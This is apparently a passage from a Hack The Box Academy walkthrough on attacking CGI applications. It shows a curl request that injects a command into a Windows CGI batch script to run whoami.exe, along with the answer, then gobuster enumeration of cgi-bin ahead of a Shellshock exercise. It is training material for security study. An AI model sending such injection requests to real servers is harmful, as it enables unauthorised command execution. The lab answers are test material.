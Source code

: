 ```
┌─[us-academy-2]─[10.10.15.12]─[htb-ac-594497@htb-geylz278ib]─[~]
└──╼ [★]$ curl 'http://10.129.205.30:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe'

Welcome to CGI, this section is not functional yet. Please return to home page.
feldspar\omen
```

Answer: `feldspar\omen`

# Attacking Common Gateway Interface (CGI) Applications - Shellshock

## Question 1

### "Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server."

After spawning the target machine, students need to first fuzz for CGI scripts hosted on the target, finding `access.cgi`:

Code: shell

```shell
gobuster dir -u http://STMIP/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

```
┌─[us-academy-2]─[10.10.15.12]─[htb-ac-594497@htb-geylz278ib]─[~]
└──╼ [★]$ gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.205.27/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/03/30 15:43:57 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
2023/03/30 15:44:00 Finished
===============================================================
```

